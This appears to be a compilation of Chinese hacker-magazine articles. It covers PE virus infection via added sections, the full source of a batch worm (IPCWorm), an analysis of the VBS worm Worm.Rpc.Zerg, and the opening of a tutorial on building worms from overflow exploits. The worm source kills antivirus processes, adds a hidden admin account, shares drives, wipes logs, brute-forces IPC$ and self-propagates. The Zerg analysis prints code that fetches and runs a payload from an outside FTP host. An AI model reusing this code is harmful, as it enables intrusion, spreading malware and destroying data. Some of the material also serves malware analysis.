紧接着是长为 14H 字节的“映像文件头”，其中有一个在病毒中会用的重要字段为 NumberOfSections（节数）。如图 2 所示便是一个例子程序的映像文件头（其中加上了 4 字节的字符串“PE\0\0”，即“50 45 00 00”），其中“节数”字段“03 00”我们已经做了标明。图中右下半部分是本程序的 3 个节信息，这个后面还会作具体介绍。

图 2

程序要执行的第一条语句的偏移地址，图中为 01000H，说明第一条要执行的语句在 04010000H（04000000H+01000H）位置处。该字段是病毒需要用到的，当病毒添加一个节后，会将节中病毒入口代码的偏移地址填在这个字段。这样，病毒可以在程序执行时便首先获得控制权。

ImageBase：这是可执行文件在内存中的默认装载基地址，图中为 04000000H。如果程序装入时用这个值做基地址，则装入时就不需要重定位。对于 EXE 文件，这个值一般是 04000000H，但也可能是其他值。

FileAlignment：文件中节的对齐值，病毒添加节时需要按照这个值来计算添加的节在文件中的位置以及填写节经过文件对齐后的尺寸。这个值一般是 200H（512 字节），即磁盘扇区的大小。这个值比 SectionAlignment 要小不少。因此，在内存中实际节尾与下一个节的节头之间的距离比文件中的距离变大了很多。

紧接着映像文件头的是 E0H 字节的“可选映像头”，不要被“可选”这个词语迷惑，这部分是病毒不可缺少的利用部分，如图 3 所示。其中最重要的几个部分：“AddressOfEntryPoint，ImageBase，SectionAlignment，FileAlignment，SizeOfImage，SizeOfHeaders”，我们都在图中做了标示。

这里我们对这几个关键字段介绍一下：

AddressOfEntryPoint：代码入口点，也就是程序要执行的第一条语句的偏移地址。

关于“对齐”，我们这里有必要说明一下。什么是“对齐”？打个比方，我们有 327 升汽油，我们用 100 升容量的桶去装，那么需要装 4 个桶，尽管第 4 个桶没有装满，但是它还是占用了一个桶。对齐差不多也就是这个概念，同样，327 个字节，如果以 100 个字节对齐的话，那么它会占用 400 个字节的位置，尽管最后 73 个字节都被 0 填充。

SectionAlignment：节在内存中的对齐粒度，图中为 01000H，病毒添加节时需要根据此值来计算新节在载入内存后的偏移地址。这样在内存中，譬如如果一个节为 26H 字节，那么该节会占用 1000H 的空间。

SizeOfImage：映像装入内存后的总尺寸，这是一个对齐到 SectionAlignment 的整数倍的尺寸。病毒在添加节后一般空间会变大，这时便需要改变该值大小。

SizeOfHeaders：文件头（NT 映像头 + 节表）的大小。由于文件头之后便是具体节的实际内容，其在病毒中也可以起到一定的作用。大家可能在图 3 中只看到了 060H 字节，那还有 080H 字节在哪里呢？其实后面的 Data_Directories 也应该算是映像文件头的一部分，其大小是 128 字节，正好是 080H。如图 4 所示：

图 4

Data_Directories，它是一个 IMAGE_DATA_DIRECTORY 数组，里面放的是这个可执行文件的一些重要部分的起始 RVA 和尺寸，目的是使可执行文件的装入更快。

数组的项数见上一个字段 NumberRvaAndSize（数据目录的项数），一般为 00000010H。IMAGE_DATA_DIRECTORY 包含有两个域，例如：

```c
IMAGE_DATA_DIRECTORY STRUCT
  VirtualAddress DD ?
  Size          DD ?
IMAGE_DATA_DIRECTORY ENDS
```

每个结构共 8 字节，VirtualAddress 为该部分在内存中的偏移位置，Size 为该部分的大小。通过 Data_Directories，在通过引出表搜索 API 函数地址的功能实现上，病毒可以很方便地得到引出表（即数据目录的第一项所指向的）的位置。

#### 3. 节表

紧接着 NT 映像头的就是节表。病毒要在文件中添加一个节，务必会在节表中加入一项来存储相应的节信息（当然，如果节表后面空间不足以有 28H 空间来容纳一个新节的节表信息，而病毒却又强行添加的话，定会损坏第一个节的内容）。

图 5

节表中每个节的信息都为 28H 字节。如图 5 中便是本文中例子程序的 text 节在节表中的信息。

节表是一系列“节信息”的组合，这里讲的每个“节信息”为 28H 字节，其实其为一个结构，而节表为该结构的数组，数组成员个数便是节的个数。该结构如表 1 所示：

##### 表 1 节表的结构数组成员结构

| 顺序 | 偏移 | 名字 | 大小（字节） | 描述 |
|---|---|---|---:|---|
| 1 | (00H) | Name | 8 | 节名 |
| 2 | (08H) | PhysicalAddress 或 VirtualSize | 4 | OBJ 文件中表示节物理地址；EXE 文件中表示节的实际字节数 |
| 3 | (0CH) | VirtualAddress | 4 | 本节的相对虚拟地址 |
| 4 | (10H) | SizeOfRawData | 4 | 本节经过文件对齐后的尺寸 |
| 5 | (14H) | PointerToRawData | 4 | 本节原始数据在文件中的位置 |
| 6 | (18H) | PointerToRelocations | 4 | OBJ 中表示该节重定位信息的偏移；EXE 中无意义 |
| 7 | (1CH) | PointerToLinenumbers | 4 | 行号偏移 |
| 8 | (20H) | NumberOfRelocations | 2 | 本节要重定位的数目 |
| 9 | (22H) | NumberOfLinenumbers | 2 | 本节在行号表中的行号数目 |
| 10 | (24H) | Characteristics | 4 | 节属性 |

节表部分是病毒添加新节时的重中之重。其中……

1～5 项以及第 10 项的值需要病毒程序自己设置。节名可以随便设置，第 2 项即为病毒添加新节（实际上一般就是整个病毒代码本身）的实际字节数。第 3～5 项我们在上面中已经提到了。最后一部分节属性，需要设置病毒添加节的可读、可写、可执行属性。如 20000000H 代表可执行，40000000H 代表可读，80000000H 代表可写，20H 代表包含代码等，这些属性可以相加。所以一般代码节的属性为 60000020H，而病毒节由于其中涉及到写数据，因此一般设置为 E0000020H。不过在 Windows 中，可读便具有可执行权限，大家可以验证一下。

- a) 写入节名（8 字节）。
- b) 写入节的实际字节数（4 字节）。
- c) 写入新节在内存中的开始偏移地址（4 字节），同时可以计算出病毒入口位置。  
  上节在内存中的开始偏移地址 +（上节大小/节对齐 + 1）× 节对齐 = 本节在内存中的开始偏移地址。
- d) 写入本节（即病毒节）在文件中对齐后的大小。
- e) 写入本节在文件中的开始位置。  
  上节在文件中的开始位置 + 上节对齐后的大小 = 本节（即病毒）在文件中的开始位置。

### 三、病毒的感染

介绍上面的基础知识之后，我们开始介绍病毒的具体感染。

PE 病毒常见的感染其他文件的方法是在文件中添加一个新节，然后往该新节中添加病毒代码和病毒执行后的返回 Host 程序的代码，并修改文件头中代码开始执行位置（AddressOfEntryPoint）指向新添加的病毒节的代码入口，以便程序运行后先执行病毒代码。下面我们具体分析一下感染文件的步骤。

感染文件的基本步骤如下：

- 1）判断目标文件开始的两个字节是否为“Mz”。
- 2）判断 PE 文件标记“PE”（为了更加准确，可以继续用其他条件判断）。
- 3）判断感染标记，如果已被感染过则跳出继续执行 HOST 程序，否则继续。
- 4）获得 Directory（数据目录）的个数，（每个数据信息占 8 个字节）。
- 5）得到节表起始位置（Directory 的偏移地址 + 数据目录占用的字节数 = 节表起始位置）。
- 6）得到目前最后节表的末尾偏移（紧接其后用于写入一个新的病毒节）。  
  节表起始位置 + 节的个数 ×（每个节表占用的字节数 28H）= 节表中目前最后的节信息结构的末尾偏移。
- 7）紧接着上面的末尾偏移开始写入新节的节信息结构。
- 8）修改映像文件头中的节表数目。
- 9）修改 AddressOfEntryPoint（即程序入口点指向病毒入口位置），同时保存旧的 AddressOfEntryPoint，以便病毒执行完毕后返回 HOST 继续执行。
- 10）更新 SizeOfImage（内存中整个 PE 映像尺寸 = 原 SizeOfImage + 病毒节经过内存节对齐后的大小）。
- 11）写入感染标记。
- 12）写入病毒代码到新添加的节中。  
  ECX = 病毒长度  
  ESI = 病毒代码位置（并不一定等于病毒执行代码开始位置）  
  EDI = 病毒节写入位置（后面例子是在内存映射文件中的相应位置）
- 13）将当前文件位置设为文件末尾。

其实有些 PE 文件虽然正常，但它们是不可以用这种方式感染的。譬如一年前 wowocock 就写了一个免疫程序，其思想就是增加节的个数（仅修改 NumberOfSections 字段）。这样，对于一些考虑得比较周全的病毒来说，其在计算剩余节表空间时会发现不足以有 28H 字节容纳一个新的节信息结构，于是放弃感染，以免破坏 HOST 程序。这样被免疫的 PE 文件便不会被这类病毒感染。

PE 病毒感染其他文件的方法还有很多，譬如 PE 病毒还可以将自己分散插入到每个节的空隙中等，不过这不在我们今天的讨论范围之内。

由于本人水平有限，错误之处，还望大家多多批评指正。

金山反病毒应急中心在 2003 年 5 月 5 日捕获一个采用批处理命令编写的蠕虫病毒。该蠕虫不仅通过网络高速传播，还会在不设防和设防不严的计算机留出一个危害极高的后门——添加一个权限极高的本地用户，恶意黑客可利用此用户账号登录中毒的计算机，进行肆意破坏、完全共享用户的硬盘，使得硬盘上的所有资料向网络完全开放，任何人可以在硬盘里增删文件；而且，病毒还会通过结束一些网络、病毒防火墙的方式，来逃过本机的安全检测。下面我们就看看作者是如何充分发挥批处理的威力的？

## 雕刻批处理蠕虫 IPCWorm

文／红衣刺客

使用批处理文件（也被称为批处理程序或脚本），可以简化日常或重复性任务。批处理文件是无格式的文本文档，它包含一条或多条命令。它的文件扩展名为 .bat 或 .cmd。在命令提示下键入批处理文件的文件名，cmd.exe 就会按照该文件中各个命令出现的顺序来逐个运行它们。批处理的应用可谓是博大精深，但往往被人们所忽视。

- 5. 随机生成一个 IP 地址（可以自定义 IP 范围）。
- 6. 扫描弱口令。
- 7. 复制自身到目标主机，并执行。

为了防止被使用者恶意破坏，这里只编写了感染部分和传播部分，没有对破坏部分进行编写。个人认为目前该程序只可以定义为一条共享蠕虫。

### 一、蠕虫代码

最近用批处理写了一个蠕虫，把源代码公布出来分析一下。希望大家共同进步。同时让大家对批处理有所了解。

> 注：该蠕虫的源代码（Rundll32.bat）我们放在随书光盘中，见 ipcworm.zip 文件。

### 二、功能介绍

该蠕虫用到了 pskill、psexec 这两个小工具和两个猜解用户密码的字典文件 U.txt 和 P.txt。下面对蠕虫功能做个具体说明。

- 这只蠕虫（IPCWorm）具有以下功能：
- 1. 杀死本地杀毒程序的进程（可以杀掉瑞星、金山、天网和赛门铁克）。
- 2. 在本地添加一个用户，用户名可以自定义，密码为空。
- 3. 把自身复制到启动项。
- 4. 共享 C、D、E、F 盘。

### 三、具体分析

### 1．配置部分

蠕虫的配置部分如下。

```bat
REM addadmin=worm // 你要建立的用户，默认为worm
SET ADDR1=254 // 循环IP第一部分
SET ADDR2=254 // 循环IP第二部分
SET ADDR3=254 // 循环IP第三部分
SET ADDR4=254 // 循环IP第四部分
SET SORI=1 // 该语句为随机开关
SET WORM=Rundll32.bat // 定义蠕虫的名称，默认为Rundll32.bat。
```

代码中 SORI 如果是 4 则以 IP 第四部分为上限，生成 192.168.0.1—192.168.0.255 中的随机地址；如果为 3，则第三部分和第四部分都是随机，以此类推。默认为 0.0.0.0—254.254.254.254 之内的随机 IP，即随机 IP 范围是所有 IP 地址，当然大家可以自己配置 IP 范围。

注：IP 有四个数字字段组成，譬如 192.168.0.1，其中 SORI=4 代表对最后一部分进行随机变换。以上为配置部分，大家可以根据自己的需求和喜好配置自己的小虫虫。

```bat
del %windir%\system32\logfiles\w3svc2\*.* /f /q
del %windir%\system32\config\*.event /f /q
del %windir%\system32\dtclog\*.* /f /q
del %windir%\*.txt /f /q
del %windir%\*.log /f /q
```

清除所有日志，呵呵，管理员不要吐血哦。

### 2．蠕虫的行为部分

下面开始对这个蠕虫的行为进行分析。

```bat
Copy /y %windir%\system32\%WORM% c:\Autoexec.bat
Copy /y %windir%\system32\%WORM% %windir%\system32\Winstart.bat
```

上面两个语句把自身复制到启动项 Autoexec.bat 和 Winstart.bat 中，双保险，呵呵，够黑吧！

```bat
PSK Rfw.exe
PSK KAVPW.exe
PSK KAV9X.exe
PSK VP32.exe
PSK PFW.exe
PSK RavMon.exe
```

以上代码用于杀掉反病毒进程，其实我们是用了 pskill 这个小工具，不过这里改名为 PSK。

```bat
net user %addadmin% /add
IF %ERRORLEVEL%==0 net localgroup Administrators %addadmin% /add
```

上面建立你所要建立的用户名，并将它加入管理员组。

```bat
net share ipc$
net share admin$
net share C$=c:\
net share D$=d:\
net share E$=e:\
net share F$=f:\
```

以上语句用来共享 C、D、E、F 盘。当然你还可以再添加。格式：net share 共享名=共享硬盘。

```bat
del %windir%\system32\logfiles\w3svc\*.* /f /q
```

### 3．传播部分

下面就到了其传播部分：

```bat
:IPADDRESS
IF %SORI%==4 SET /A ADDR4=%RANDOM% %% %ADDR4%

IF %SORI%==3 (
SET /A ADDR3=%RANDOM% %% %ADDR3%
SET /A ADDR4=%RANDOM% %% %ADDR4%
)

IF %SORI%==2 (
SET /A ADDR2=%RANDOM% %% %ADDR2%
SET /A ADDR3=%RANDOM% %% %ADDR3%
SET /A ADDR4=%RANDOM% %% %ADDR4%
)

IF %SORI%==1 (
SET /A ADDR1=%RANDOM% %% %ADDR1%
SET /A ADDR2=%RANDOM% %% %ADDR2%
SET /A ADDR3=%RANDOM% %% %ADDR3%
SET /A ADDR4=%RANDOM% %% %ADDR4%
)

SET ADDRESS=%ADDR1%.%ADDR2%.%ADDR3%.%ADDR4%
```

在配置部分我们已经对 SORI 进行了配置。上面代码便是按照配置部分来随机生成 IP 地址的。如果 SORI 的值为 4，则循环 IP 第四部分；如果 SORI 的值为 3，则循环 IP 第四部分和第三部分，依此类推。ADDRESS 定义为随机 IP 部分，这里用到了 RANDOM 这个随机函数，建议大家看看 Windows 的帮助。

```bat
FOR /F %%K IN (%windir%\system32\U.txt) DO FOR /F %%J IN (%windir%\system32\P.txt) DO NET USE \\%ADDRESS%\IPC$ %%J /USER:%%K & IF NOT errorlevel 1 GOTO RUN
GOTO IPADDRESS
```

以上是绝对经典的一句，用了 For 的双层循环猜解用户名和密码（其中 U.txt 为用户名字典，P.txt 为密码字典），如果正确 GOTO RUN，错误 GOTO IPADDRESS。建议大家好好琢磨琢磨这一段代码。

```bat
NET USE \\%ADDRESS%\IPC$ /DEL
GOTO IPADDRESS
```

这里便是删除 IPC$ 连接了。

```bat
:RUN
COPY Rundll.bat \\%ADDRESS%\ADMIN$\SYSTEM32\%WORM%
IF errorlevel 1 GOTO ERR
COPY U.txt \\%ADDRESS%\ADMIN$\SYSTEM32\
COPY P.txt \\%ADDRESS%\ADMIN$\SYSTEM32\
COPY PS \\%ADDRESS%\ADMIN$\SYSTEM32\
COPY PSK \\%ADDRESS%\ADMIN$\SYSTEM32\
PS \\%ADDRESS% %windir%\system32\%WORM%
```

以上是 RUN 部分，其建立 IPC$ 成功后把自身复制到目标 IP 的 SYSTEM32 目录下，并用 psexec 远程执行蠕虫主体（这里 psexec 改名为 PS）。

### 4．活动流程

当这只蠕虫被激活时，它会按如下流程进行活动：

- 1. 它把自身复制到注册表的启动项，以便在每次开机时自动运行该蠕虫。
- 2. 杀掉本地的杀毒程序，建立用户，共享 C、D、E、F 盘，清除本地日志。
- 3. 随机生成 IP 地址，然后调用 U.txt 和 P.txt 这两个字典循环猜解用户名和密码。
- 4. 如果建立连接不成功，则重新生成 IP 地址；如果建立连接成功，则把自身复制到目标主机的 system32 目录下，并远程激活。

这样就实现了蠕虫感染和传播。一只虫虫就是这样从一台主机爬到了另一台主机上。

## Worm.Rpc.Zerg 蠕虫分析

文／孤风

在 Msblaster 大面积爆发之前，另外一个利用 VBS 编写的 DCOM RPC 蠕虫也占据了非常重要的位置（国内数万台机器被感染），这便是我们今天要介绍的 Worm.Rpc.Zerg 蠕虫。看来，VBS 脚本无论是在病毒还是蠕虫编写上，都可以将其简单易用的特性发挥得淋漓尽致。现在就让我们看看这个 VBS 蠕虫具体是如何运作的。

Worm.Rpc.Zerg 蠕虫和最近网上疯狂传播的冲击波蠕虫病毒一样，都利用了最近极度流行的 DCOM RPC 漏洞，虽然无论是在病毒结构、传播方式还是在危害后果上，它都不能同 Worm.Blaster 相比，但是仍然给国内计算机造成了很大的危害。

这个病毒是我在一台肉鸡上发现的，当时无意中看了下任务管理器，居然发现了一个 rscan.exe 的进程，先不说 Windows 里有没有这个系统文件……看看这个文件名就应该值得我们怀疑了。于是经过一番搜索和分析，意外地发现这居然是一个用 VBS 脚本加上第三方工具，利用 DCOM RPC 漏洞的蠕虫，而其所利用的第三方工具，在大部分黑客站点都能轻易下载到。

和大部分蠕虫不一样的是，这个蠕虫的结构非常简单，实际上没有任何的专业技术可言，但是根据留下的传播记录却发现它在很短的时间内成功攻击了大量的机器。这不得不引起我们的注意。

### 一、蠕虫的组成结构和运行流程

该蠕虫本身是一个利用 WinRAR 制作而成的自解压文件 SD.EXE，运行后即在系统目录生成如下 15 个文件（并且自动运行 zerg.vbe 文件）：

- 1.txt
- 2.txt
- 3.txt
- 4.txt
- 5.txt
- zerg.vbe
- ii.vbe
- rrpc.vbe
- rep.EXE
- rn.exe
- rpc.exe
- rscan.exe
- RSSDD.EXE
- SlimFTPd.exe
- slimftpd.conf

zerg.vbe 运行后先修改注册表将自己加入自启动项，再对本机上的蠕虫进程进行清理，然后调用 ii.vbe 脚本，运行后门程序 RSSDD.EXE，再在自身携带的 5 个 IP 列表（即上文中 5 个 TXT 文件，不知道作者出于何种目的，该 IP 列表中的 IP 99% 以上都是国内的 IP）中随机抽取并生成 IP，随后用 Ping 验证 IP 是否存在，一旦 IP 存在，则用第三方扫描工具 rscan.exe 对该 IP 的 D 段进行扫描，并把结果保存下来，扫描结束后再调用攻击脚本 rrpc.vbe。该脚本首先会对扫描结果进行分析，只要发现扫描结果中有存在漏洞的主机，就会先运行自带的第三方 FTP 服务器程序 SlimFTPd.exe，然后用第三方攻击程序 rrpc.exe 进行攻击，利用 rn.exe（即修改文件名后的 nc.exe）绑定命令使被攻击成功的主机连接本机的 FTP 服务器自动下载蠕虫并运行，从而进行传播和感染。

### 二、蠕虫的关键代码分析

在 zerg.vbe 中，该蠕虫利用修改注册表的方法达到自启动的目的。请看以下代码：

```vb
R.RegWrite "HKEY_CURRENT_USER\Software\Microsoft\Windows NT\CurrentVersion\Windows\load", fs.GetSpecialFolder(1) & "\\zerg.vbe", "REG_SZ"

R.RegWrite "HKEY_CURRENT_USER\Software\Microsoft\Windows NT\CurrentVersion\Windows\Programs", "com exe bat pif cmd vbe", "REG_SZ"
```

这里调用 RegWrite 函数对注册表进行修改，值得注意的是这个病毒修改了 [HKEY_CURRENT_USER\Software\Microsoft\Windows NT\CurrentVersion\Windows] 里的“LOAD”并创建了一个 VBE 的主键，达到用户登录后自动运行的作用，而一般的杀毒软件监控的启动项是 [HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run]，所以该蠕虫在启动方式上做到了一定的隐蔽性。

在对进程的清理上，该蠕虫用了如下代码：

```vb
strComputer = "."
Set objWMIService = GetObject("winmgmts:" _
    & "{impersonationLevel=impersonate}!\\" & strComputer & "\root\cimv2")
Set colProcessList = objWMIService.ExecQuery _
    ("Select * from Win32_Process Where Name = 'n.exe'")
For Each objProcess in colProcessList
    objProcess.Terminate()
Next
Wscript.Sleep 60
```

在 zerg.vbe 中，用以上方式进行清理的程序有 n.exe、RSDD.exe、hftp.exe、scan.exe、rpc.exe、m.exe、rscan.exe、SlimFTPd.exe，然而这些程序中有的并不在蠕虫包中存在，所以，我怀疑手头上的这个蠕虫并不是该蠕虫的第一个版本，那么 zerg.vbe 的功能就不光是清理作用了，它还能在重复感染中清理掉旧的蠕虫，起到升级的作用。

ii.vbe 是蠕虫主体部分，主要负责 IP 的生成和扫描漏洞主机的任务。下面看看它的关键代码。以下是 IP 的生成和验证部分的代码：

```vb
Randomizer=Int((5*Rnd)+1)
' 生成一个不小于 5 的随机正整数，用于随机抽选 IP 列表
Set IPP = fs.opentextfile(ip,1)
Do While IPP.AtEndOfStream <> True
  IP1 = IPP.Readline
  Randomize
  IP2=Int((254*Rnd)+1)
  IP3=Int((254*Rnd)+1)
  TIP=IP1 & IP2 & "." & IP3
  SIP=IP1 & IP2 & "."
  ' ...
  WshShell.Run "Cmd.exe /c ping " & TIP & " >iptemp.txt",0
  Wscript.Sleep 5000
  Set PI = fs.opentextfile(TP,1)
  xp = PI.Readline
  T=0
  Do While T < 10
    T = T + 1
    If Mid(xp,7,4) <> "from" then xp = PI.Readline
  Loop
Loop
```

以下是扫描部分的代码：

```vb
WshShell.Run "Cmd.exe /c rscan.exe " & SIP & "1-" & SIP & "255 >log.txt",0
' 运行 rscan.exe 对生成的 IP 的 D 段进行扫描，并把扫描结果输送到 log.txt
Wscript.Sleep 120000
' 等待 120 秒
```

扫描结束后就是攻击了，看以下代码：

```vb
WshShell.Run "Cmd.exe /c RRPC.vbe",0
' 运行 RRPC.vbe
For X = 1 TO 60
  Wscript.Sleep 60000
  If (fs.fileexists("ok.txt")) then X=60
Next
' 每隔 60 秒检查一次是否生成 ok.txt
```

攻击结束后，用 zerg.vbe 中的方法清理掉可能残余的扫描和攻击程序的进程，然后回到前面生成 IP 进行循环攻击。

最后，我们来分析蠕虫重点的攻击部分 RRPC.vbe。该脚本首先会对保存下来的扫描结果进行分析整理，代码如下：

```vb
WshShell.Run "Cmd.exe /c find log.txt ""[VULN]"" >logg.txt",0
' 用 DOS 的 FIND 命令提取扫描报告中含 "[VULN]" 的部分并输出到 logg.txt
```

然后判断在本目录是否存在 local.txt 文件，并运行 FTP 服务器程序，代码如下：

```vb
If (fs.fileexists("Local.txt")) then
  ' 判断当前目录是否有 local.txt
  WshShell.Run "Cmd.exe /c rep.exe !@#$% %systemroot%\system32 slimftpd.conf",0
  Wscript.Sleep 1000
  ' 修改 slimftpd.conf 中路径到系统目录
  WshShell.Run "Cmd.exe /c slimftpd.exe",0
  ' 运行第三方 FTP 服务
End If
```

接下来是蠕虫的重点部分，攻击和传播功能的代码。

```vb
Else
  xz = "hhhftp.3322.org"
End If
Set b = fs.CreateTextFile("cmd.txt",True)
b.WriteLine("echo " & left(p1,15) & " >%systemroot%\system32\Local.txt")
b.WriteLine("echo open " & Xz & " 323>>%TEMP%\ftp.txt")
b.WriteLine("echo sys>>%TEMP%\ftp.txt")
b.WriteLine("echo dragoon>>%TEMP%\ftp.txt")
b.WriteLine("echo bin>>%TEMP%\ftp.txt")
b.WriteLine("echo lcd %systemroot%\system32>>%TEMP%\ftp.txt")
b.WriteLine("echo get SD.exe>>%TEMP%\ftp.txt")
b.WriteLine("echo bye>>%TEMP%\ftp.txt")
b.WriteLine("ftp -s:%TEMP%\ftp.txt")
b.WriteLine("del %temp%\ftp.txt")
b.WriteLine("%systemroot%\system32\SD.exe")
b.Close
Wscript.Sleep 4000
WshShell.Run "Cmd.exe /c rn.exe -vv -l -p 8130 <cmd.txt",0
Wscript.Sleep 1000
' 这里用 rn.exe 监听本机的 8130 端口，如果有机器连上来则执行 cmd.txt 中包含的命令。
If (fs.fileexists("Local.txt")) then
' 这里根据是否存在 local.txt 文件决定攻击方法，要是 IP 不是固定 IP 那么一切都是白费
```

被攻击成功的机器里会生成一个 local.txt 文件，这个文件的内容也就是该机器的 IP，也就是 `b.WriteLine("echo " & left(p1, 15) & " > %systemroot%\system32\Local.txt")` 这段语句。这样固然可以解决一些问题，但是要知道，并不是所有机器的 IP 都是固定的，这里作者不知什么原因忽视了。这就是为什么前面要判断是否存在 local.txt 文件的原因。

以上都是为了攻击而做的准备工作，攻击的主要代码如下：

```vb
For T = 0 To 1
  WshShell.Run "Cmd.exe /c RRPC.exe -d " & left(p1, 15) & " -t " & T & " -h " & Lo & " -P 8130",0
  Wscript.Sleep 4000
Next
' 这里是存在 local.txt 文件的攻击命令
Wscript.Sleep 25000
Else
For T = 0 To 1
  WshShell.Run "Cmd.exe /c RRPC.exe -d " & left(p1, 15) & " -t " & T & " -l 8848",0
  Wscript.Sleep 4000
  WshShell.Run "Cmd.exe /c type cmd.txt|rn.exe " & left(p1, 15) & " 8848",0
  Wscript.Sleep 25000
Next
' 这里当然就是不存在 local.txt 文件后的攻击命令了
```

一旦攻击成功，被攻击主机就会依照 cmd.txt 中的命令连上本机的 323 端口，以 sys 的用户名登录，下载并运行系统盘中的蠕虫包。如果不存在 local.txt 文件，作者还是采取了攻击成功后绑定端口的方法进行攻击，大概是怕 local.txt 文件被人为删除而做的补救措施吧。攻击成功后，被攻击的机器则去“hhhftp.3322.org”绑定的 IP 主机上下载蠕虫包进行感染。

现在大家应该已经明白作者的思路了吧，反正偶是看了半天才能理解的，唉~~ 攻击完毕后，照例是用前面的方法清除可能残留的攻击程序进程。当扫描结果中所有存在漏洞的主机攻击完毕，会在当前目录下生成一个表示攻击结束的文件“ok.txt”，ii.vbe 以此判断攻击是否结束。

从上面代码中我们看到其生成了复制自身以达到传播目的的关键文件 cmd.txt。解释前我在这里做一些必要的说明。这个蠕虫用到的 Dcom Rpc 漏洞攻击程序有两种用法：一种是攻击成功后连接到指定 IP，同时绑定一个 Shell，也就是反向连接；另一种是攻击成功后在本机开一个绑定了 Shell 的端口。

也许是这蠕虫作者认为反向连接的成功率大一些吧，所以首先采用的是反向连接的方法，但是反向连接需要指定一个 IP，这里就是利用第三方工具的蠕虫缺陷了，这些工具并不是针对蠕虫用途写的，所以不能在攻击时自动加上本机 IP。实际上 VBS 脚本语言可以直接得到本机 IP，但是作者在这里用了另一种方法，就是在攻击时，在每台被攻击成功的机器里生成一个 local.txt 文件。

看到这里，只要是对 VBS 脚本编程稍有了解的人都能看出，这个蠕虫所利用的无非是一些非常基本的 VBS 命令和函数，以及一些简单的 DOS 命令和第三方黑客工具。然而，蠕虫虽然简单，造成的危害却不容忽视。

> 利用第三方黑客工具加上简单的脚本语言制作蠕虫的方法由来已久。前段时间横行网络的利用 IPC 弱口令的 numa.bat（猛鸡）蠕虫就是利用 Windows 的批处理脚本加上第三方扫描、攻击工具制作而成。这些蠕虫的出现给在计算机安全领域工作的人们敲响了警钟，就是说，随着电脑知识的普及和黑客工具的泛滥，任何人都可能制作出危害不小的蠕虫。未来的网络是否面临着巨大的危机呢？我们拭目以待。

## 利用溢出漏洞炼制蠕虫

2003 年应该算得上是蠕虫之年了，各种有影响的蠕虫大面积爆发，蜂拥而至，一时间网络空间被搅得乌烟瘴气！在前面我们对各种病毒的基础技术做了比较详细的介绍，攻防中，我们也具体谈到了蠕虫和病毒的具体区别和联系，现在再推出一篇《如何利用溢出漏洞炼制蠕虫》的文章，和大家讨论一下病毒的技术，希望本文可以作为大家探讨蠕虫技术的基础，如果你有什么好的想法，欢迎到我们论坛（www.hacker.com.cn/newbbs）交流。

- 难度等级：中
- 前置知识：一定的汇编基础知识和黑客技术

文／Vxk[CVC]

北京时间 2003 年 1 月 25 日，亚洲网络空间带宽急速下滑，大部分网段被阻塞，大量使用网络工作的上班族的正常工作被迫停止……事后经有关方面查证，表明这是由一个利用 SQL 远程溢出漏洞高速传播的蠕虫（“SQL 蠕虫王”）造成的；同年 7 月份，全世界的网络流量突然发生了不正常的猛增，小部分主要传输宽带被彻底占用，数以万计运行着 Windows NT/2k/XP/2003 的计算机不停地出错/重启，造成了很大的经济损失——造成这一现象的是一个利用微软公布的 MS03-026 号漏洞进行传播的蠕虫（“冲击波”蠕虫）；正当“冲击波”蠕虫刚刚有所收敛之时，国内很多运行 IIS 的服务器遭到了利用 WebDav 漏洞的入侵，同时大量 ICMP Ping 数据几乎造成 ICMP Flood 使网络干道阻塞，在这一事件发生之后，杀毒软件公司宣称这是由一个叫“假好人”的蠕虫引起的……

这些仅仅是这一年内发生的大规模蠕虫事件，我们不难由此想到和“SQL 蠕虫王”一样疯狂的“Red Code”，以及比“冲击波”更阴险的 Nimda，和“假好人”一样会打补丁的“GreenCode”……这些蠕虫都具有一个相同的特点：利用漏洞传播自己。自从“RedCode”之后，各种各样的漏洞不再仅仅是黑客和网管关心的问题，也逐渐成为 Vxer 和 Aver 们注意及研究的方向和对象。

虽然漏洞利用对于安全技术研究人员并不是一个陌生问题，而对于一些刚刚进入 VXER 这个新方向的人们来说，由于各种资料的欠缺和语言编写上的种种原因造成了不少不小的困难。而本文正是针对国内大多安全研究者对此方面了解不多或者了解不够的现状撰写的。本文的目的在于让读者理解利用漏洞编写蠕虫的方法，希望对大家研究蠕虫有帮助。

### 基础和原理篇

此类蠕虫主要是把 Exploit（漏洞利用程序）由原先的手动输入 IP 地址和其他参数改变成了自动生成 IP 和其他数据，把 Exploit 的 Shell（目标机器执行的部分）改成了自身（如“RedCode”和“Sql 蠕虫王”就是这样），或者其他用于传播的 Shell，除此之外它还可能具有一些病毒的功能（如 Nimda）。

### 结语

> 关于 SQL 蠕虫王的详细原理分析，大家可以参考我们文册《SQL 蠕虫王是怎样炼成的》一文。

以上简单地解释了此类蠕虫的大致原理，那么编写这样一个蠕虫又需要用到哪些知识呢？下面我们将一一介绍。

- 1. 编程知识：用汇编编写简单的 Winsock 程序

这类蠕虫都需要向其他计算机发送数据或者接受数据，因此必然要用 Socket 进行操作，而 Winsock2 用于 VC 上面的操作可能很多人都很熟悉了，但是由于编写的程序是要求精益求精的蠕虫，因而选择使用可对代码进行较好操作的汇编语言编写蠕虫。另外，使用汇编在代码方面也可以简单地进行变形或者加密及感染文件之类复杂的编程操作……

- 1) Socket 初始化模块

要想使用 Windows 的 Socket 编程，必须先初始化 Winsock，让 Windows 为它准备好网络栈（Linux 系统本身就准备了），这里使用 SocketApi::WSAStartup 和一个下文要常用到的 WSAGetLastError 函数（详细的 API 函数用法请参阅 MSDN 的有关章节）。

```asm
InitSock Proc
Init_main:
pushad
push offset WSD ; 指向 WSADATA 结构的变量
push 0002h
; 使用 Winsock2.0，如用 WinSock1.2，其值为0201h，WinSock1.0 的值为0001h
Call WSAStartup
```

蠕虫要是使用重定位的话要适当修改，详见下文：

```asm
cmp eax, 0
jnz InitError ; 返回值不为0，说明发生了错误需要处理
jmp End_init ; 初始化成功后返回
InitError:
Call WSAGetLastError
; 取 Winsock 发生的最后一个错误，如果初始化发生错误，这里得到错误代号
; ……对错误的处理
popad
mov eax, -1
ret
End_init:
popad
ret
Data_init:
WSD WSADATA <?> ; 存放变量声明的区域
InitSock_end=$
InitSock Endp
```

然后，我们可以这样调用上面所定义的初始化过程：

```asm
xor eax, eax
Call InitSock
cmp eax, -1
je Error ; 没成功初始化
; 初始化完成的操作
```

- 2) 创建 Socket 句柄的模块

在 Windows 下 Socket 完成初始化之后，我们还需要为它创建一个 Socket 句柄（Windows 的用户可操作对象多可以用句柄这个词），这里使用 SocketApi::Socket 函数。

```asm
CreatSock Proc
